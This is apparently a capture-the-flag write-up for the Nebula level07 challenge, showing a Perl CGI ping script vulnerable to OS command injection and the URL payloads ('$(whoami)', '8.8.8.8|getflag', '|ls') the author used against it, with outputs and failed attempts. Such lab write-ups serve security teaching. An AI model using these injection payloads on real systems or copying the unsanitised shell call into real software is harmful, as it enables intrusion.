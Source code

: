 # For level07 in nebula

>The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.
>  
>To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07.

We are given the source code of the following perl program and given the hint that this is related toa web server. (Before I solved this challenge, I had *no* idea that perl cgi was a server side script for web servers).
```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

On first glance, it is obvious that the program is vulnerable to [OS command injection](https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013)). 

The program simply takes whatever value is given as an argument to `param("Host")` and chucks it into `ping -c 3 $host 2>&1` without any input sanitation whatsoever.



Let's explore what files are present in `/home/flag07`. They might come in handy.
```
level07@nebula:/home/flag07$ ls -la
total 10
drwxr-x--- 2 flag07 level07  102 2011-11-20 20:39 .
drwxr-xr-x 1 root   root     300 2012-08-27 07:18 ..
-rw-r--r-- 1 flag07 flag07   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag07 flag07  3353 2011-05-18 02:54 .bashrc
-rwxr-xr-x 1 root   root     368 2011-11-20 21:22 index.cgi
-rw-r--r-- 1 flag07 flag07   675 2011-05-18 02:54 .profile
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf
```
There are 2 files of particular interest to us, `index.cgi` and `thttpd.conf`. As [man pages show](https://linux.die.net/man/8/thttpd), thttpd is a simple, small, fast, and secure HTTP server. So `thttpd.conf` is its configuration file. Let's see what useful information it contains.

```
level07@nebula:/home/flag07$ cat thttpd.conf 
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

[...]
# Specifies what user to switch to after initialization when started as root.
user=flag07

```

The config file specifies that the server runs as `user=flag07`, and listens at `port=7007`. At the time of doing this challenge, the Nebula VM was on IP address 192.168.1.20. So, we will connect to it through the URL `http://192.168.1.20:7007/index.cgi`.


Let's get started.
#### Intended Usage

Input: `http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8`

Output : 
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=53 time=3.26 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=53 time=3.50 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=53 time=3.82 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2012ms
rtt min/avg/max/mdev = 3.269/3.530/3.820/0.235 ms
```

#### Unintended Usage

Input: `http://192.168.1.20:7007/index.cgi/?Host=$(whoami)`

Output: `ping: unknown host flag07`

`ping -c 3 $host 2>&1` -> `ping -c 3 $(whoami) 2>&1` -> `ping -c 3 flag07 2>&1`. `flag07` is not a valid host to ping, so an error was returned by `ping`.

But this output proves 2 facts.
1. The program *really is* vulnerable to OS command injection.
2. The program is executed as `flag07`, so if we inject the command `getlfag`, it'll be run as `flag07`. It's the perfect plan.


#### Winning

Input: `http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8|getflag`

Output: `You have successfully executed getflag on a target account`



#### Troubles with command injection

I did not successfully exploit the OS command injection vulnerability on the first go. I *knew* there is such a vulnerability. It just took me several tries to get correctly exploit the weakness.

**Failed 1**
Input: `http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8|$(ls)`

Output: `sh: index.cgi: command not found`

`ping -c 3 $host 2>&1` -> `ping -c 3 8.8.8.8|$(ls) 2>&1` -> `ping -c 3 8.8.8.8 | index.cgi 2>&1` 
There is no output from `ping` to stdout as it was piped into the non-existant "command" `index.cgi`. So all we see is the shell complain that there is no such command.

**Failed 2**
Input1: `http://192.168.1.20:7007/index.cgi/?Host=\`ls\``
Input2: `http://192.168.1.20:7007/index.cgi/?Host=$(ls)`

Output: `ping: unknown host index.cgi`

`ping -c 3 $host 2>&1` -> `ping -c 3 $(ls) 2>&1` -> `ping -c 3 index.cgi 2>&1`. `index.cgi` is not a valid host to ping, so an error was returned by `ping`.

**Failed 3**
Input: `http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8;$(ls)`

Output: 
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=53 time=3.49 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=53 time=3.48 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=53 time=3.31 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2011ms
rtt min/avg/max/mdev = 3.314/3.432/3.496/0.083 ms
```

**Failed 4**
Input (in the website): `http://192.168.1.20:7007/index.cgi/?Host=192.168.1.20;ls`

Output (in the website): 
```
PING 192.168.1.20 (192.168.1.20) 56(84) bytes of data.
64 bytes from 192.168.1.20: icmp_req=1 ttl=64 time=0.028 ms
64 bytes from 192.168.1.20: icmp_req=2 ttl=64 time=0.078 ms
64 bytes from 192.168.1.20: icmp_req=3 ttl=64 time=0.077 ms

--- 192.168.1.20 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.028/0.061/0.078/0.023 ms
```

Honestly, I have no idea why the output of `ls` was not included. Because when I ran the command in the command line, the output of `ls` was included in stdout.

```
level07@nebula:/home/flag07$ ping -c 3 8.8.8.8; ls
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.

[...]
index.cgi  thttpd.conf
```

Only when I changed `;` to `|` was I given the expected output in the webpage.

**Passed 1**
Input: http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8|ls

Output: 
```
index.cgi
thttpd.conf
```

This is the correct output of the injected command `ls`. `ls` does not accept inputs from stdin, so it does not matter that any output was piped to it. Also, `thttpd.conf` shows that the server is run with `/home/flag07` as its directory. That's why `ls` shows us these 2 files present in `/home/flag07`.

```
# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
```


END
